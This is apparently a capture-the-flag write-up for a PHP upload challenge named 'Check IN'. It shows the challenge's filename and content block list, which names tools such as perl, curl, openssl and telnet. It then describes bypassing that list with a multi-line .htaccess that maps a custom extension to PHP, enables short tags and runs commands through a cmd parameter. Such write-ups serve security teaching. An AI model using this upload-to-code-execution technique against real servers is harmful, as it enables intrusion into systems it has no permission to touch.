 # Check IN

## Description

The web app had file upload functionality. User files uploads to the: /uploads/[md5(REMOTE_ADDR)]/

And all sending content passes via the following filters:
```php
$black = file_get_contents($tmp_name);
if (!$tmp_name) {
    $result1 ="???";
}else if (!$name) {
    $result1 ="filename cannot be empty!";
}
else if (preg_match("/ph|ml|js|cg/i", $name)) {
    $result1 = "filename error";
}
else if (!in_array($_FILES["fileUpload"]['type'], $typeAccepted)) {
    $result1 = 'filetype error';
}
else if (preg_match("/perl|pyth|ph|auto|curl|base|>|rm|ruby|openssl|war|lua|msf|xter|telnet/i",$black)){
    $result1 = "perl|pyth|ph|auto|curl|base|>|rm|ruby|openssl|war|lua|msf|xter|telnet in contents!";
}
```

# Solution

We had to deal with the apache server and could upload the ".htaccess" file to change the apache configuration settings for our folder.

After tring CGI script, RewriteRules, Indexes, server-status, server-info and etc. that could be helpful, we found that htaccess files supports multi lines like:


```
SetHa\
ndler server-status
```

It means, that we could bypass the filter and configure `PHP` interpreter to work with other extensions:
```
AddHandler application/x-httpd-p\
hp .foo
```

There was only one problem, that we should use `<?php` tags, and short PHP tags didn't work.

But we already know that if apache was runned with `mod_php`, we can change PHP ini directives from the `.htaccess`. Example:

```
php_value short_open_tag 1
```

The finals `.htaccess` file:

```
AddHandler application/x-httpd-p\
hp .foo

p\
hp_value short_open_tag 1
```

After that we could execute files with the ".foo" extension as PHP files.

Request:
```
/uploads/831e75264dcb2b93527461c0608310f8/check.foo?cmd=cat%20/flag
```

Flag:

```
De1ctf{cG1_cG1_cg1_857_857_cgll111ll11lll}
```


